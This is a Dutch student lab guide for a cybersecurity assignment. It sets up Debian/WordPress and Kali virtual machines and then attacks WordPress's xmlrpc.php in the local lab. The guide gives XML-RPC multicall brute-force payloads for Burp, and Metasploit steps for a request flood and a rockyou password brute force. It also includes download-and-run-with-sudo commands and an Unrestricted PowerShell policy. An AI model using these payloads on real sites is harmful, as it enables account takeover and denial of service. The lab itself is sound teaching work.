

# **Deployment handleiding**

Dit is ons stappenplan/startupplan voor de cybersecurity opdracht.  
We exploiten een XML vulnerability in wordpres 5.0.0

Student 1: Pieter Deconinck  
Student 2: Matthias Appelmans

## **Virtuele machines opzetten.**

**Folder structure**

Ons script verwacht dat de vdi's in de juiste folder zitten.  

Debian Desktop VDI: `C:\VDI Files\Debian\Debian 11 (64bit).vdi`  
Kali VDI: `C:\VDI Files\Debian\Kali Linux 2022.3 (64bit).vdi`  

**Download de vm's**

- Download de Debian 11 Desktop 64 bit image van https://www.osboxes.org/debian/
- Download de Kali Linux 2022.3 (All Tools) 64 bit van https://www.osboxes.org/kali-linux/

**Powershell script**

- Open een terminal op de plek van de DebianV.ps1 & EvilKali.ps1
- Vraag eerst je execution policy op met `Get-ExecutionPolicy`  
- als deze niet op **unrestricted** staat voer dan dit commando uit: `Set-ExecutionPolicy Unrestricted`
- Run daarna de scripts 1 voor 1 met `.\DebianV.ps1` en `.\EvilKali.ps1`

- Als vboxmanage niet gevonden kan worden link je die best aan je Path  
`$env:Path += ";C:\Program Files\Oracle\VirtualBox"`  

Als je de VM al eens opgezet hebt, en hem opnieuw wilt opzetten, moet je eerst de VM verwijderen (delete all files). en verwijder ook de aangemaakt vdi in de media manager.

Als je problemen hebt met een al gebruikte UUID:  
`VBoxManage internalcommands sethduuid "C:\VDI Files\Debian\Debian 11 (64bit).vdi"`  
`VBoxManage internalcommands sethduuid "C:\VDI Files\Kali\Kali Linux 2022.3 (64bit).vdi"`  

**Debian Desktop Webserver**

- Log in op de virtuele machine met `osboxes.org`  

- De scripts kan je vinden in onze Bash scripts folder op github:  
`https://github.com/Pieter-Deconinck/Cybersec-Matthi-Pieter`  

- Open de terminal en download het debian.sh script:  
`sudo wget https://raw.githubusercontent.com/Pieter-Deconinck/Cybersec-Matthi-Pieter/main/Bash%20scripts/debian.sh`

- geef het script execute permissions: `sudo chmod +x debian.sh`
- voer het script uit met sudo: `sudo ./debian.sh`

De database settings zijn al door gegeven aan wordpress via  
de wp-config.php file.

- Ga nu naar `localhost` en vervolledig de installatie met

Site title: `Pieter`  
Username: `Pieter`  
Password: `greenday`  
Email: `Pieter.deconinck@student.hogent.be`  

- Log in als admin op https://localhost/wp-admin/  
- pas de wordpress url's aan naar `192.168.1.60`

**Kali Attacker**

- Log in op de virtuele machine met `osboxes.org`  

- De scripts kan je vinden in onze Bash scripts folder op github:  
`https://github.com/Pieter-Deconinck/Cybersec-Matthi-Pieter`  

- Open de terminal en download het debian.sh script:  
`sudo wget https://raw.githubusercontent.com/Pieter-Deconinck/Cybersec-Matthi-Pieter/main/Bash%20scripts/kali.sh`

- geef het script execute permissions: `sudo chmod +x kali.sh`  
- voer het script uit met sudo: `sudo ./kali.sh`

## Exploit uitvoeren

**Burp suite proof-of-concept**

- Open burp suite en klik op de Proxy tab
- Open de burp suite browser en browse naar `http://192.168.1.60/xmlrpc.php`
- Dit zou een "XML-RPC server accepts POST requests only." moeten geven.
- Zet intercept nu aan in de proxy, en refresh de pagina
- Stuur de GET request naar de repeater via actions
- In de repeater tab, verander de `GET` naar `POST`
- Voeg de payload toe en klik send.

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>

- Je kan zien dat de server de request verwerkt.

- Voeg de Multicall array payload toe en klik send.

        <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>

**Metasploit framework**

**DOS attack**

- Ga naar de Debian VM en open een terminal
- voer het `top` commando uit en bekijk de cpu %
  

- Open het metasploit framework in de Kali VM. Via search bar of met `msfconsole`
- Gebruik de DOS module: `use auxiliary/scanner/http/wordpress_xmlrpc_login`
- Bepaal target ip: `set RHOSTS 192.168.1.60`
- Bepaal target poort: `set RPORT 80`
- Request limiet: `set RLIMIT 10000000`
- Bekijk de ingestelde opties: `show options`
- Voer de attack uit: `run`
- ga kijken bij de Debian VM terminal

- Stop de attack met `ctrl+c` in de Kali vm terminal te doen.

**Bruteforce credentials**

- Open het metasploit framework in de Kali VM. Via search bar of met `msfconsole`
- Gebruik de DOS module: `use auxiliary/scanner/http/wordpress_xmlrpc_login`
- Bepaal target ip: `set RHOSTS 192.168.1.60`
- Bepaal de namen lijst: `set USER_FILE /usr/share/wordlists/names.txt`
- Bepaal de passwoorden lijst: `set PASS_FILE /usr/share/wordlists/rockyou.txt`
- Stop vanaf succes: `set STOP_ON_SUCCESS true`

- Unzip de rockyou wordlist: `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
- Voeg de namen toe aan de names.txt: `sudo nano /usr/share/wordlists/names.txt`

        Pieter
        Matthias
        Joeri
        Metehan
        Jari
        Jobbe
        Sven
        Michiel

- Bekijk de ingestelde opties: `show options`
- Voer de attack uit: `run`

